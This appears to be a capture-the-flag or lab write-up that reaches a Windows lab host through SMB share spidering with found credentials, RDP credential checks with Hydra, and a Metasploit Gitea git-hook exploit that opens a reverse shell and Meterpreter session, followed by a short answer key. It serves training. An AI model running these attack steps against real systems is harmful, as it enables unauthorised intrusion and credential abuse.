









## SMB Exploitation

In the previous linux target, we found some credentials `username : john` and `password : SuperSecurePass123`

Using **NetExec**, we tested access to the `Devs` SMB share:

```bash
nxc smb 10.129.34.254 -u "john" -p 'SuperSecurePass123' --spider Devs --pattern .
```



The command successfully authenticated and spidered the share, revealing a PowerShell script:  

> What `--spider Devs --pattern .` does:

- **Recursively crawls** the `Devs` share. 
- **Matches all files** (the `.` pattern means "any character"). 
- **Lists all files and directories**, including metadata.

This confirms:

- Credentials are valid.
- User `john` has **read access** to the `Devs` share. 
- Likely involved in development—potential for finding source code, configs, or credentials.

We now download the script

```bash
nxc smb 10.129.34.254 -u "john" -p 'SuperSecurePass123' --share Devs --get-file tmp.ps1 tmp.ps1
```



The script content

```powershell
# Script: CopyFileFromRemoteShare.ps1
$username = "WIN01\john"
$password = "SuperSecurePass123"  
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force
$credential = New-Object System.Management.Automation.PSCredential($username, $securePassword)

$remoteShare = "\\FileServer01\SharedFolder"
$sourceFileName = Read-Host -Prompt "File> "
$sourceFile = "$remoteShare\$sourceFileName"
$destinationFile = "C:\Temp\$sourceFileName"
$destinationDir = "C:\Temp"

if (-not (Test-Path $destinationDir)) {
    New-Item -Path $destinationDir -ItemType Directory -Force
}

try {
    New-PSDrive -Name "Z" -PSProvider FileSystem -Root $remoteShare -Credential $credential -ErrorAction Stop

    if (Test-Path "Z:\$sourceFileName") {
        Copy-Item -Path "Z:\$sourceFileName" -Destination $destinationFile -Force
        Write-Output "File copied successfully to $destinationFile"
    } else {
        Write-Output "Error: File '$sourceFileName' not found in $remoteShare"
    }
} catch {
    Write-Output "An error occurred: $_"
} finally {
    Remove-PSDrive -Name "Z" -Force -ErrorAction SilentlyContinue
} 
```

With the credentials obtained from the file, we can try and bruteforce if there is any password re-use in other services, i.e rdp

```bash
hydra -l john -p "SuperSecurePass123" rdp://10.129.34.254
```



Hydra confirms that these creds are valid for RDP session


---

## Gitea Exploitation

We will use `msfconsole` again and search through the database for any known exploits.

```
msf> search gitea
```



Metasploit shows us three different exploits. Let’s take a look at the second exploit with the target set as `Windows Dropper` - no 9

```
msf> info 9
```



Select it and list its options

```
use 9
show options
```



Set the needed options for us to proceed

```
set RHOSTS 10.129.34.254
set LHOST tun0
set USERNAME john
set PASSWORD SuperSecurePass123
```



Run the exploit now

```
run
```



Lets break down what is happening here :

1. **Start TCP listener**: A reverse shell handler is set up to receive an incoming connection from the target.
2. **Exploit execution**: A malicious Git repository with a crafted git hook is created and triggered, leading to remote code execution (RCE).
3. **Reverse shell connection**: The RCE payload connects back to the attacker, establishing a reverse shell.
4. **Meterpreter session**: The reverse shell is upgraded to a Meterpreter session, providing advanced post-exploitation capabilities.

At this point, we have several options for proceeding, but let's connect directly to the target using RDP.

```bash
xfreerdp /u:john /p:"SuperSecurePass123" /v:10.129.34.254 /cert:ignore
```



If you want to specify the width and height

```bash
xfreerdp /u:john /p:"SuperSecurePass123" /v:10.129.34.254 /w:1366 /h:768 /cert:ignore
```


---

## Q/A

1. What is the hostname of the file server that you discovered in the PowerShell script?

```
FileServer01
```

2. When was the Gitea Git Hooks RCE vulnerability disclosed? (Format: YYYY-MM-DD)

```
2020-10-07
```


---
